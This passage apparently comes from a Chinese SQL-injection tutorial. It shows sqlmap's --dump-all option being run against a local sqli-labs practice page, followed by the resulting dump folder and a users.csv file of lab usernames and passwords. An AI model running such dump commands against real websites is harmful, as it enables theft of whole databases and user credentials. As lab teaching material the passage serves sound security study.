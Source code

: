 ![Drawing 15.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y71GANTBrAAFu3OCaUR4397.png)  
图 16：使用 --dump 参数批量获取字段值

**（6）使用 --dump-all 参数导出整个数据库**。

这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：

```java
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump-all
```

上述方法导出的数据文件存放路径会在命令行给出，数据以 csv 文件形式保存到本地：

```shell
Ubuntu# pwd
/root/.local/share/sqlmap/output/localhost/dump
Ubuntu# tree
.
├── challenges
│   └── 6EAED22Z6T.csv
├── information_schema
│   ├── CHARACTER_SETS.csv
│   ├── COLLATION_CHARACTER_SET_APPLICABILITY.csv
│   ├── COLLATIONS.csv
│   ├── COLUMN_PRIVILEGES.csv
│   ├── COLUMNS.csv
│   ├── ......
│   ├── SCHEMATA.csv
│   ├── SESSION_STATUS.csv
│   ├── SESSION_VARIABLES.csv
│   ├── STATISTICS.csv
│   ├── USER_PRIVILEGES.csv
│   └── VIEWS.csv
├── mysql
│   ├── help_category.csv
│   ├── help_keyword.csv
│   ├── help_relation.csv
│   ├── help_topic.csv
│   ├── proxies_priv.csv
│   ├── servers.csv
│   └── user.csv
├── performance_schema
│   ├── cond_instances.csv
│   ├── ......
│   └── threads.csv
└── security
    ├── emails.csv
    ├── referers.csv
    ├── uagents.csv
    ├── users.csv
    └── users.csv.1
5 directories, 70 files
Ubuntu# cat /root/.local/share/sqlmap/output/localhost/dump/security/users.csv
id,username,password
1,Dumb,Dumb
2,Angelina,I-kill-you
3,Dummy,p@ssword
4,secure,crappy
5,stupid,stupidity
6,superman,genious
7,batman,mob!le
8,admin,admin
9,admin1,admin1
10,admin2,admin2
11,admin3,admin3
12,dhakkan,dumbo
```
